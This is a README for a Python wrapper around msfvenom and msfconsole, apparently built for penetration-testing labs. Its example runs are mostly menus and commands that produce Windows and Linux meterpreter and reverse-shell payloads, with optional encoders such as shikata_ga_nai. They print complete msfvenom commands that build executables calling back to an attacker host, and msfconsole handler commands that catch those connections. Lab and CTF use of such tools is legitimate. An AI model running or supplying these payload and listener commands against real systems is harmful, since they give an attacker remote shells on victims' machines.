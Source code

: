 # Shells
This repository is a helper script for msfvenom and msfconsole because I am lazy.

## Installation
No installation requirements other than metasploit, but for maximum fun I would create an alias:  
```bash
python3 setup.py
```

## Usage
Defaults are tun0 network adapter IP for LHOST and 443 for LPORT.  If you have an active network adapter you do not need to pass args.

Each option has a default, if you just hit enter through all the prompts it will give you a shell.exe, and if you choose option 10 on the first screen, and enter through the rest it will give you an elf file.  Display the output to the terminal if you need to get shellcode. 
```bash
python3 shells.py
```
```bash
python3 shells.py 10.10.255.254 9001
```

## Example
```bash
❯ python3 shells.py
WINDOWS PAYLOADS
1. windows/x64/meterpreter/reverse_https
2. windows/meterpreter_reverse_https
3. windows/meterpreter/reverse_https
4. windows/x64/meterpreter/reverse_tcp
5. windows/meterpreter/reverse_tcp
6. windows/shell_reverse_tcp
7. windows/shell/reverse_tcp
LINUX PAYLOADS
8. linux/x64/meterpreter_reverse_https
9. linux/x86/meterpreter_reverse_https
10. linux/x64/meterpreter/reverse_tcp
11. linux/x86/meterpreter/reverse_tcp
12. linux/x64/shell_reverse_tcp
13. linux/x86/shell_reverse_tcp
14. linux/x64/shell/reverse_tcp
15. linux/x86/shell/reverse_tcp
Choose a payload (1-13): 10
FORMATS
1. exe/elf (default)
2. python
3. perl
4. ps1
5. csharp
6. c
7. dll
8. vbapplication
9. vbs
10. vba
11. hta-psh
12. asp
13. aspx
14. jsp
15. sh
16. raw
17. msi
18. war
19. jar
Choose a format by number (1-19) or name:
ENCRYPTION
1. none
2. aes256
3. rc4
4. xor
Choose an encryption type (1-4):
ENCODERS
1. none (default)
2. x86/shikata_ga_nai
3. x64/xor
4. x64/xor_dynamic
5. x64/zutto_dekiru
Choose an encoder by number (1-5) or name:
OUTPUT TYPE
1. File (default)
2. Terminal
Choose an output type (1-2): shell

Shellcode:
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: shell

msfvenom command:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=443 -f elf -o shell

msfconsole command:
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST 10.10.14.2; set LPORT 443; set ExitOnSession false; exploit -j"
```

```bash
❯ python3 shells.py 10.10.255.254 9001
WINDOWS PAYLOADS
1. windows/x64/meterpreter/reverse_https
2. windows/meterpreter_reverse_https
3. windows/meterpreter/reverse_https
4. windows/x64/meterpreter/reverse_tcp
5. windows/meterpreter/reverse_tcp
6. windows/shell_reverse_tcp
7. windows/shell/reverse_tcp
LINUX PAYLOADS
8. linux/x64/meterpreter_reverse_https
9. linux/x86/meterpreter_reverse_https
10. linux/x64/meterpreter/reverse_tcp
11. linux/x86/meterpreter/reverse_tcp
12. linux/x64/shell_reverse_tcp
13. linux/x86/shell_reverse_tcp
14. linux/x64/shell/reverse_tcp
15. linux/x86/shell/reverse_tcp
Choose a payload (1-13):
FORMATS
1. exe/elf (default)
2. python
3. perl
4. ps1
5. csharp
6. c
7. dll
8. vbapplication
9. vbs
10. vba
11. hta-psh
12. asp
13. aspx
14. jsp
15. sh
16. raw
17. msi
18. war
19. jar
Choose a format by number (1-19) or name:
ENCRYPTION
1. none
2. aes256
3. rc4
4. xor
Choose an encryption type (1-4):
ENCODERS
1. none (default)
2. x86/shikata_ga_nai
3. x64/xor
4. x64/xor_dynamic
5. x64/zutto_dekiru
Choose an encoder by number (1-5) or name:
OUTPUT TYPE
1. File (default)
2. Terminal
Choose an output type (1-2): shell.exe

Shellcode:
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 592 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe

msfvenom command:
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.255.254 LPORT=9001 -f exe -o shell.exe

msfconsole command:
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 10.10.255.254; set LPORT 9001; set EnableStageEncoding true; set StagerVerifySSLCert true; set HandlerSSLCert /key/custom.pem; set ExitOnSession false; exploit -j"
```
